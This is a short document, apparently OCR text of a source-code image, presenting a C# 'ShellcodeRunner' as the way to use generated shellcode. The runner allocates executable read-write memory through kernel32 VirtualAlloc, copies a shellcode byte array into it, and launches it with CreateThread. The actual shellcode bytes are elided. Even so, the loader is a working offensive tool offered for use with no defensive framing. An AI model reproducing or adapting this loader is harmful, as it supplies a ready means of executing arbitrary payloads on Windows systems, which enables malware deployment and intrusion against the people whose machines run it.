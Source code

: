 Here is how you can use the generated shellcode in a C# application:

```csharp
using System;
using System.Runtime.InteropServices;

class ShellcodeRunner
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

    const uint MEM_COMMIT = 0x1000;
    const uint MEM_RESERVE = 0x2000;
    const uint PAGE_EXECUTE_READWRITE = 0x40;
    const uint INFINITE = 0xFFFFFFFF;

    static void Main()
    {
        byte[] shellcode = new byte[276] {0xfc,..,0x00};
        IntPtr allocatedMemory = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        
        if (allocatedMemory == IntPtr.Zero)
        {
            throw new System.ComponentModel.Win32Exception(Marshal.GetLastWin32Error());
        }

        Marshal.Copy(shellcode, 0, allocatedMemory, shellcode.Length);

        uint threadId;
        IntPtr threadHandle = CreateThread(IntPtr.Zero, 0, allocatedMemory, IntPtr.Zero, 0, out threadId);

        if (threadHandle == IntPtr.Zero)
        {
            throw new System.ComponentModel.Win32Exception(Marshal.GetLastWin32Error());
        }

        WaitForSingleObject(threadHandle, INFINITE);
    }
}

```

